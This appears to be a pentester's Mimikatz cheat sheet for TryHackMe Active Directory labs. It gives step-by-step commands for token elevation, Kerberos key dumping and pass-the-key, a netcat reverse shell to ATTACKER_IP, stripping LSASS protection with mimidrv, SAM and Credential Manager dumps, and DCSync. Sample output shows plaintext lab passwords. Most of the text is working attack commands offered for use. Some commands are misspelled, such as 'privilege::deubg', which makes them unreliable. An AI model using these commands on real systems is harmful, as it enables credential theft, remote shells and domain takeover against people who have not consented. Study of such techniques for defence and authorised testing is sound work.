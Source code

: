 https://tools.thehacker.recipes/mimikatz

### Required:
- NT AUTHORITY SYSTEM priveleges
- mimikatz binary on the system (location: `/usr/share/mimikatz`)

### Setting up
Do this before any of the next options
```
privilege::deubg    // NOTE: only follow through if response is "[20] OK", otherwise (when it throws an error) commands will run but not work correctly.
// Possible error: ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061 --> not ran as admin

token::elevate      // Impersonates admin token
```

### Dumping kerberos keys + pass the key
(pass the key is also called "Overpass the hash")
```
sekurlsa::ekeys
token::revert                                                                 // required for passing the hash
sekurlsa::pth /user:USER /domain:DOMAIN /rc4:RC4_HASH /run:"COMMAND"          // With RC4 hash
sekurlsa::pth /user:USER /domain:DOMAIN /aes128:AES128_HASH /run:"COMMAND"    // With AES128 hash
sekurlsa::pth /user:USER /domain:DOMAIN /aes256:AES256_HASH /run:"COMMAND"    // With AES256 hash
```
Note: if you have `nc64.exe` on the system, use the following payload for a reverse shell:
```
c:\Windows\Temp\nc64.exe -e cmd.exe ATTACKER_IP ATTACKER_PORT
```
Note 2: because the "credentials" are injected after you've passed the key, if `winrs.exe` is available, you can use it without giving credentials:
```
winrs.exe -r:THMIIS.za.tryhackme.com cmd      // Spawns a shell on the THMIIS machine of the za.tryhackme.md domain.
```


### Dumping logonpasswords / handling "ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)"
Logonpasswords dumps all logged-on users.
```
mimikatz # sekurlsa::logonpasswords  
// If this gives the "ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)"
// When you get this error, it means the LSASS is protected. You need the "mimidrv.sys" for this. (included in the directory)

mimikatz # !+        
// Loads the mimidrv
Expected output:
"
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
"
mimikatz # !processprotect /process:lsass.exe /remove
// Removes the protected state from the LSASS
Expected output:
"
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
"
mimikatz # sekurlsa::logonpasswords  
// It should work now.
```

### handling "ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list"
Make sure to use the correct architecture Mimikatz (`win64`/`win32`)

### General SAM passwords (local accounts)
```
mimikatz # lsadump::sam
```
Note: Any hashes can be used to pass to SMBClient (including Administrator hashes, combined with `-U Administrator`)

### Windows credential manager
```
sekurlsa::credman  // Dumps all windows credential manager credentials. (saved windows credentials)
```
This will get most credentials, but not the Web credentials. for these, use `Get-WebCredentials.ps1` (you can check if they exist using `vaultcmd /listcreds:"Web Credentials" /all`)
#### Example output
```
PS C:\Tools\Mimikatz> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 19 2020 00:48:59
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

736     {0;000003e7} 1 D 26914          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0025ebf6} 2 F 4320524     THM\thm S-1-5-21-1966530601-3185510712-10604624-1114    (16g,26p)       Primary
 * Thread Token  : {0;000003e7} 1 D 4369062     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # sekurlsa::credman

Authentication Id : 0 ; 34477 (00000000:000086ad)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 8/11/2023 11:29:59 AM
SID               : S-1-5-96-0-0
        credman :

Authentication Id : 0 ; 31779 (00000000:00007c23)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 8/11/2023 11:29:48 AM
SID               :
        credman :

Authentication Id : 0 ; 2485238 (00000000:0025ebf6)
Session           : RemoteInteractive from 2
User Name         : thm
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 8/11/2023 11:44:59 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-1114
        credman :
         [00000000]
         * Username : thm
         * Domain   : 10.10.237.226
         * Password : jfxKruLkkxoPjwe3
         [00000001]
         * Username : thm.red\thm-local
         * Domain   : thm.red\thm-local
         * Password : Passw0rd123

Authentication Id : 0 ; 2454892 (00000000:0025756c)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 8/11/2023 11:44:57 AM
SID               : S-1-5-90-0-2
```

### Active Directory DCSync attack
###### Required permissions: Domain Replication permissions (Domain Controller / Domain Administrator)
To dump one user, use:
```
privilege::elevate
lsadump::dcsync /domain:DOMAIN /user:USERNAME@DOMAIN                // Note: the ERROR_NOT_UNIQUE error means the DOMAIN name isn't specified
```

To dump everything:
```
privilege::elevate
log dcdump.txt
lsadump::dcsync /domain:DOMAIN /all
```
